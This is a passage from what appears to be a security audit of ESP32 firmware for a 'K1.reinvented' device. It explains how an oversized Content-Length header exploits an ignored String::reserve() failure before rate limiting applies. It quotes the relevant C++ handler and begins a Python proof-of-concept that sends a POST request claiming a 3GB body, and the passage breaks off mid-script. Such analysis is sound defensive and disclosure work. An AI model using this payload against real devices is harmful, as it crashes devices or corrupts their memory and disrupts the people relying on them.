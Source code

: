 4. **What actually happens on ESP32:**
   - `realloc()` attempts to allocate 2GB + 1 byte
   - Heap manager returns NULL (only 8MB available)
   - String::reserve() returns false
   - **But return value is ignored at line 182!**

5. **Consequence:**
   - `body->buffer` remains nullptr
   - `body->capacity()` remains unchanged
   - Line 187 `body->concat()` operates on corrupted String
   - Potential heap corruption or crash

### Why Rate Limiting Doesn't Help

**File:** `/Users/spectrasynq/Workspace_Management/Software/K1.reinvented/firmware/src/webserver_request_handler.h`

Lines 133-155: K1RequestHandler::handleWithRateLimit()

```cpp
133: void handleWithRateLimit(AsyncWebServerRequest* request) {
134:     // Check rate limiting
135:     uint32_t window_ms = 0, next_ms = 0;
136:     if (route_is_rate_limited(route_path, route_method, &window_ms, &next_ms)) {
137:         auto *resp = create_error_response(request, 429, "rate_limited", "Too many requests");
138:         // ... send 429 response
141:         return;
142:     }
143:
144:     // Rate limit passed - create context and handle
145:     RequestContext ctx(request, route_path, route_method);
146:     // ...
154:     handle(ctx);
}
```

**Issue:** Rate limiting check happens AFTER memory exhaustion already occurred.

The call sequence is:
1. K1PostBodyHandler::operator() called (line 175)
2. Memory exhaustion happens (line 182)
3. Request object passed to handleWithRateLimit (line 195)
4. THEN rate limiting is checked (line 136)

**The memory damage happens before rate limiting can reject the request.**

### Proof-of-Concept: Memory State Corruption

```python
# Attack code that demonstrates heap corruption
import socket
import time

def send_oom_attack(target_ip, target_port=80):
    """
    Send malformed HTTP request with oversized Content-Length
    This causes String::reserve() to fail but continue processing
    """
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target_ip, target_port))

    # Build request with huge Content-Length but small actual body
    request = (
        b"POST /api/params HTTP/1.1\r\n"
        b"Host: k1-reinvented.local\r\n"
        b"Content-Type: application/json\r\n"
        b"Content-Length: 3000000000\r\n"  # 3GB - exceeds heap
```